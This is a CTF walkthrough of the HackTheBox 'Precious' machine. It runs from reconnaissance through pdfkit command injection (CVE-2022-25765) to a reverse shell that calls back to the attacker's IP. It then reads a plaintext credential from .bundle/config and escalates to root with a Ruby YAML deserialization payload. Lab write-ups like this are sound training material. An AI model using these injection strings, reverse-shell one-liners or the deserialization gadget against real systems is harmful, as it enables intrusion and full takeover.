

# Hackthebox - Precious - Linux

  

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -O -sV -p- 10.10.11.189
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-10 08:58 EST
Nmap scan report for 10.10.11.189
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.64 seconds
```

- Let's change our /etc/hosts file to add the host precious.htb

## HTTP

- We land here when going to http://precious.htb/


### Gobuster

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://precious.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://precious.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/10 09:25:29 Starting gobuster in directory enumeration mode
===============================================================
Progress: 220506 / 220561 (99.98%)===============================================================
2022/12/10 09:35:52 Finished
===============================================================
```

> Nothing here

### Burp repeater

Playing around with burp we find that we are not able to generate a pdf with an url but if we try special chars we can generate a pdf.  
See this one for example  
  
So it is blank at the moment but still it is a start.  
We can see that it uses wkhtmltopdf version 0.12.6  
We can google it to see if it has known exploits  
We find this cve: [CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583) see also [here](https://github.com/advisories/GHSA-v2fj-q75c-65mr) and this [blog](https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently) seems worth reading.  
We have an ssrf vulnerability.
If we set up a simple http server with python we are able to see the requests coming. Here is burp with our ip to request  
  
Here is the traffic in our http server  
  
Let's try to go further now that we can see that we have a possible interaction.
Ideally we would like to be able to execute code in the server to gain access.  
While looking around I stumbled on [this article](https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/) that is really good.  
For the last part of the article we need a webserver that can handle php.
We can use php because it has a built in webserver.  
This should do the trick `php -S 127.0.0.1:80 -t .`  
Let's try the snippet from the article  

```php
<?php 
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
?>
```

Now we just need to put this in our html file  

```html
<iframe src="https://10.10.14.2/test.php?a=file:///etc/passwd">
```

So to recap we have burp repeater that will query our server to fetch the html file. The html will then query our php that will query the etc/passwd from our target.  
Let's try this.  
I am having troube with the builtin php server, so I am just going to use Apache2.  

- `sudo systemctl enable apache2` to enable it
- `sudo systemctl start apache2` to start it
- If we go to `http://localhost` we should see the Apache default page like this  
  

Now we just need to move or copy our php and html files to `/var/www/html`  
We are almost there, except that the iframe does not show the file we want it prints the php instead.  
  
It is probably because the remote server does not handle php.  
We did see that it uses ruby.  
Let's see if we have something similar in ruby.
```ruby
loc = "http://127.0.0.1/"

if (request.params.has_key?('a'))
  loc = request.params['a']
end

response.headers['Location'] = loc

```

```ruby

response.headers['Location'] = "file:///etc/passwd"

```

- Another interesting [article](https://www.sidechannel.blog/en/html-to-pdf-converters-can-i-hack-them/) about vulnerabilities in pdf converters

> **SPOILER ALERT: None of this worked. But I left it here because the articles were interesting and it is an overview of the process when working on CTF. You go through a lot of rabbit holes.**

- Turns out that I saw after it is also using pdfkit. Let's have a look at exploit related to pdfkit v0.8.6
- We find a CVE for this version of pdfkit `CVE-2022-25765`
- [This poc](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) is interesting
- Let's try `http://10.10.14.4/?name=#{'%20`sleep 5`'}`
- This seems to work  
  
- There seem to be a delay for the server to respond.
- Let's try to get a shell using this method
- We set a listener `rlwrap nc -lvp 4444`
- I tried the following commands from my repeater `/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1` and `bash -i >& /dev/tcp/10.10.14.4/4444 0>&1` but was not successful
- We need a symbol safe shell, we can find one [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#symbol-safe-shell)  
`bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'`  

- It works and we get a shell  


- We need to move to the user because we got ruby. if we ls on /home we also have user henry. This is the one we should move to.

## Lateral movement

- Here are interestin files to look at that we found with linpeas

```bash
/usr/share/openssh/sshd_config
drwxr-xr-x 2 root root 4096 Oct 26 08:28 /etc/nginx/sites-enabled
lrwxrwxrwx 1 root root 38 Sep 26 05:00 /etc/nginx/sites-enabled/pdfapp.conf -> /etc/nginx/sites-available/pdfapp.conf
/etc/nginx/nginx.conf
/usr/bin/gettext.sh 
/home/ruby/.bundle
/home/ruby/.bundle/config
/home/ruby/.bash_history
/tmp/passenger.HkV4WCc/full_admin_password.txt
/tmp/passenger.HkV4WCc/read_only_admin_password.txt
/etc/pam.d/common-password
etc/pam.d/passwd
```

- Indeed the file .bundle/config contains a password for Henry 

```bash
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

- We can then `su henry` and access the user via the password we found.
- we can grab the user flag

## Privilege escalation

- Let's ssh as henry `ssh henry@10.10.11.189 `
- We run linpeas again with our new user. Here are things worth investigating

```bash
╔══════════╣ Binary processes permissions (non 'root root' and not belonging to current user)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                                                                                 
lrwxrwxrwx 1 root  root        4 Sep 26 04:32 /bin/sh -> dash   

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                             
Matching Defaults entries for henry on precious:                                                                                                                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

- The `sudo -l` seems interesting
  

Here is the content of the update_dependencies.rb file

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

- If we launch the command we get this error
  

- This means that it is looking for the dependencies. We could create a malicious yml file and put it in Henri's home. The path is not defined in the script so it will look in Henri's home.  
Let's hope that it works...
- We can try this script that I found [here](https://stackoverflow.com/questions/33887194/how-to-set-multiple-commands-in-one-yaml-file-with-kubernetes)

```yml
apiVersion: v1
kind: Pod
metadata:
  name: hello-world
spec:  # specification of the pod’s contents
  restartPolicy: Never
  containers:
  - name: hello
    image: "ubuntu:14.04"
    command: ["/bin/bash"]
    args: ["bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"]
```

- The script above does not work and we get no errors.
- The one that did it is the one I found in [this blog post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) 

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"
         method_id: :resolve
```

- So to recap: 
  - I used the code above and put it in file named dependencies.yml in Henri's home folder. 
  - I set a listener on port 4444
  - Then when I launched `sudo /usr/bin/ruby /opt/update_dependencies.rb` I got a root shell

  

- We can grab the root flag.
